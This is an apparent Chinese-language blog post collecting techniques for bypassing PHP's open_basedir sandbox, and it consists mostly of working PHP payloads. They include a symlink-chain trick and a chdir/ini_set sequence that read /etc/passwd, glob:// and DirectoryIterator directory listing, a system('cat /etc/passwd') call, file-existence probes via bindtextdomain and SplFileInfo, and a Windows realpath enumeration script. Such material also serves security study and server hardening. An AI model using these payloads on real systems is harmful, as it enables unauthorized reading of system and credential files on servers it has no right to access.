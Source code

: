 ```yaml
---
layout:     post
title:      PHP bypass open_basedir
subtitle:   简单记录绕过的几种方法
date:       2020-07-28
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/background/post-php-open_basedir.jpg
catalog: true
tags:
    - PHP
---
```


实验环境

![aPsSWq.png](https://s1.ax1x.com/2020/07/27/aPsSWq.png)



# symlink 绕过

前提：有足够的权限去创建文件

payload
```php
<?php
mkdir("A");
chdir("A");
mkdir("B");
chdir("B");
mkdir("C");
chdir("C");
mkdir("D");
chdir("D");
mkdir("E");
chdir("E");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
symlink("A/B/C/D/E","bypass");
symlink("bypass/../../../../../etc/passwd","res");
unlink("bypass");
mkdir("bypass");
?>
```

原理 由于symlink 也受到`open_basedir`的限制 无法直接绕过限制， 先依次创建一个文件夹`A/B/C/D/E`，然后通过软连接让 `/var/www/html/dir/bypass -> /var/www/html/dir/A/B/C/D/E`,然后 `/var/www/html/dir/res -> /var/www/html/dir/bypass/../../../../../etc/passwd` ,也就是说 `/var/www/html/dir/res -> /var/www/html/dir/A/B/C/D/E/../../../../../etc/passwd = /var/www/html/dir/etc/passwd` 至此所有操作都是在`open_basedir`中操作的，再然后删除 `bypass` 文件再新建一个单纯的文件不在具有链接，现在res的指向变成了`/var/www/html/dir/res -> /var/www/html/dir/bypass/../../../../../etc/passwd = /etc/password`

![aPs9S0.png](https://s1.ax1x.com/2020/07/27/aPs9S0.png)




# glob

方法一

利用 `DirectoryIterator`

```php
<?php
$c = $_GET['c'];
$a = new DirectoryIterator($c);
foreach($a as $f){
    echo($f->__toString().'<br>');
}
?>
```

方法二

```php
<?php
$a = $_GET['c'];
if ( $b = opendir($a) ) {
    while ( ($file = readdir($b)) !== false ) {
        echo $file."<br>";
    }
    closedir($b);
}
?>
```
只能列目录，php7可以用如下方法读非根目录文件

该方法测试发现除了根目录 与 `open_basedir`指定的目录，只要知道某个目录下的文件名称就可列目录
如 `/var` 下存在 `www` 目录，那么就可以对 `/var` 下任意目录进行列举

如 `glob:///*/www/../*` 就可列举   `/var`

![aPv07F.png](https://s1.ax1x.com/2020/07/27/aPv07F.png)

![aPvw0U.png](https://s1.ax1x.com/2020/07/27/aPvw0U.png)

# 系统命令函数

命令函数不受限制
```php
system('cat /etc/passwd');
```

# chdir 与 ini_set

```php
<?php
mkdir('aa');chdir('aa');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo file_get_contents('/etc/passwd');
?>
```

# bindtextdomain 与 SplFileInfo

只能确定目录文件是否存在，存在则返回路径 否则false
```php
<?php
$re = bindtextdomain('xxx', $_GET['dir']);
var_dump($re);
?>
```

```php
<?php
$info = new SplFileInfo($_GET['dir']);
var_dump($info->getRealPath());
?>
```

# realpath

仅限windows
```php

<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = '**';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) {
        $file = $dir . $chars[$i] . '<><';
        realpath($file);
}
function isexists($errno, $errstr)
{
        $regexp = '/File\((.*)\) is not within/';
        preg_match($regexp, $errstr, $matches);
        if (isset($matches[1])) {
                printf("%s <br/>", $matches[1]);
        }
}
?>
```


# 其他

[php5全版本绕过open_basedir读文件脚本](https://www.leavesongs.com/bypass-open-basedir-readfile.html)

[浅谈几种Bypass open_basedir的方法](https://www.mi1k7ea.com/2019/07/20/%E6%B5%85%E8%B0%88%E5%87%A0%E7%A7%8DBypass-open-basedir%E7%9A%84%E6%96%B9%E6%B3%95/)
